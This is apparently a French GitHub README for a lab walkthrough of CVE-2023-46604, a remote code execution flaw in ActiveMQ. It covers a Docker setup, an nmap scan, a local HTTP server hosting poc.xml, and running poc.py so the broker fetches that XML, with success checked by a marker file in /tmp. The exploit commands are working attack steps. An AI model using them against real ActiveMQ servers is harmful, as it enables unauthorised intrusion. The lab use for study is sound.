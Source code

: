 # README - Exploitation de CVE-2023-46604

Ce document détaille les étapes nécessaires pour exploiter la vulnérabilité **CVE-2023-46604** sur un serveur ActiveMQ, permettant une exécution de code à distance (RCE).

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Accédez au dossier `activemq_2023`.
2. Démarrez ActiveMQ en arrière-plan avec la commande suivante :
   ```bash
   docker compose up -d
   ```

   ![Capture Docker Compose](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```
   Vous devriez voir la version ActiveMQ (par exemple : **5.17.3**).

   ![Interface ActiveMQ](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

4. Vous pouvez également vérifier la version ActiveMQ dans le fichier `docker-compose.yml` :
   ![Version ActiveMQ dans docker-compose.yml](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner les ports ouverts et identifier les services disponibles :
```bash
nmap -p- 192.168.1.145
```

   ![Résultats de Nmap](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)

---

## **3. Exploiter la vulnérabilité**

### Lancer un serveur HTTP local
1. Ouvrez un port sur le serveur avec la commande suivante :
   ```bash
   python3 -m http.server -b 192.168.1.145 6666
   ```

   ![Serveur HTTP ouvert](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

### Utiliser l'exploit
2. Exécutez les fichiers `poc.py` et `poc.xml` pour exploiter la vulnérabilité :
   ```bash
   python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml
   ```

   ![Exécution de l'exploit](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

3. Vérifiez que la commande a bien été reçue sur le port ouvert (6666).

---

## **4. Vérification de l'exécution de la charge utile**

### Identifier le conteneur ActiveMQ
1. Listez les conteneurs actifs pour trouver l'ID correspondant à ActiveMQ :
   ```bash
   docker ps -a
   ```

   ![Liste des conteneurs](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

### Accéder au conteneur
2. Connectez-vous au conteneur ActiveMQ avec la commande suivante :
   ```bash
   docker exec -it <ID_du_conteneur> /bin/bash
   ```
   - Remplacez `<ID_du_conteneur>` par l'ID récupéré précédemment.

### Vérifier la réussite de l'injection
3. Accédez au dossier `/tmp` et recherchez le fichier créé par l'exploit :
   ```bash
   ls -l /tmp/
   ```

   ![Vérification du fichier dans /tmp](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

   Vous devriez voir un fichier nommé `activeMQ-RCE-success`, preuve de l'exécution réussie de l'injection de code à distance.

---
